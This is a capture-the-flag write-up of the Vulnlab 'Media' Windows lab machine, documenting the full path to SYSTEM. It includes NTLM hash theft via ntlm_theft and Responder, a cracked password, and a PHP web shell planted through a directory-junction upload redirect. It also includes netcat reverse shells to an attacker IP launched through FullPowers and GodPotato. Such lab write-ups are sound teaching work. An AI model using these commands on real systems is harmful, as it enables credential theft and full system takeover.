


| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Media        | Medium     | 11/01/2025   | 19/01/2025     |
*Vulnlab.com* 

---

**Learning Points:**
- Using the [**FullPowers**](https://github.com/itm4n/FullPowers/releases/tag/v0.1) tool to automatically recover the default privilege set of a service account, including **`SeAssignPrimaryToken`** and **`SeImpersonate`**.
- Using **symlinks** or **Junctions** to redirect file uploads to the **webroot**, allowing us to execute malicious uploads from the web as the web service account.

---

**Attack Path:**
- Find the upload function in the web application running on port 80.
- Create a malicious audio file using **ntlm_theft** that, when triggered, will send the hash to our SMB server running from **Responder**.
- Upload the audio file, capture the hash, and crack it using **Hashcat**.
- Use the credentials to log in to the machine using **EvilWinRM** and get the user flag.
- Read the source code of the web application and identify the upload path.
- Use **Junctions** to redirect file uploads to the webroot and upload a web shell, then execute it to get a shell as the local service account.
- Use **FullPowers** binary to enable the disabled privileges, such as **SeImpersonatePrivilege**.
- Use **GodPotato** to exploit **SeImpersonatePrivilege**, obtain a system shell, and get the root flag.

---

*Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Sat Jan 11 22:17:22 2025 as: nmap -sC -sV -oA default -Pn 10.10.124.156
Nmap scan report for 10.10.124.156
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 0b:b3:c0:80:40:88:e1:ae:aa:3b:5f:f4:c2:23:c0:0d (RSA)
|   256 e0:80:3f:dd:b1:f8:fc:83:f5:de:d5:b3:2d:5a:4b:39 (ECDSA)
|_  256 b5:32:c0:72:18:10:0f:24:5d:f8:e1:ce:2a:73:5c:1f (ED25519)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: ProMotion Studio
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-01-11T16:47:49+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2025-01-10T16:39:00
|_Not valid after:  2025-07-12T16:39:00
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-11T16:47:43+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 22:17:50 2025 -- 1 IP address (1 host up) scanned in 28.08 seconds
```

We accessed a landing page on port 80.


Scrolling down, we found an option to upload files.


We used [**ntlm_theft**](https://github.com/Greenwolf/ntlm_theft) to generate malicious audio files so that, when triggered, the NTLM hash would be sent to our **Responder SMB** server.

```
python3 ntlm_theft.py --generate all --server 10.8.4.157 --filename audio
```


We uploaded the **audio.wax** file to the web application.


After some time, we were able to capture the **NTLMv2 hash** of the **`enox`** user.


We were able to crack the hash using **Hashcat**.


```
enox:1234virus@
```

Since the SSH port was open, we used the credentials and were able to log in via SSH to obtain the user flag.


### Privilege Escalation

We checked the privileges of our user and were not able to find anything interesting.


While enumerating local files, we found the source of the web application in **XAMPP**, but we did not have write access to the folder.


While reviewing the source code of **index.php**, we were able to find the upload function and the path.


Upload Directory :


We entered the properties for **email** and **name**, then uploaded a simple web shell to the web application.

```php
<?php
system($_REQUEST['cmd']);
?>
```


Inside the **md5hash** renamed directory, we found our shell uploaded.


We then removed the directory and created a junction so that when the file was uploaded, it would be saved in the webroot instead of the original location.

```
mklink /J C:\Windows\Tasks\Uploads\566537929bb692f41c445544ead8f0e8 C:\xampp\htdocs
```



We uploaded the file with the same properties set as before.


We were able to confirm that our attack worked, and the **shell.php** file was uploaded to the web root.


We could now execute code as **`NT AUTHORITY\LOCAL SERVICE`**.



We created a directory named **temp** in **C:**, uploaded the **Netcat** binary using **wget** in the SSH PowerShell, and then executed it to obtain a shell. We were able to get a shell as **`NT AUTHORITY\LOCAL SERVICE`** on **Eagle**.


However, we couldn't see any additional privileges.


We used a tool called **`FullPowers`**, which automatically recovered the default privilege set of a service account, including **`SeAssignPrimaryToken`** and **`SeImpersonate`**.

```
FullPowers.exe -c "C:\temp\nc64.exe 10.8.4.157 443 -e cmd" -z
```


After executing it, we obtained a shell with **`SeImpersonatePrivilege`** enabled.


We executed **Godpotato** and were able to get a shell on **Eagle** as **`NT AUTHORITY\SYSTEM`** and obtained the root flag.

```
GodPotato-NET4.exe -cmd "C:\temp\nc64.exe -e cmd.exe 10.8.4.157 1234"
```


----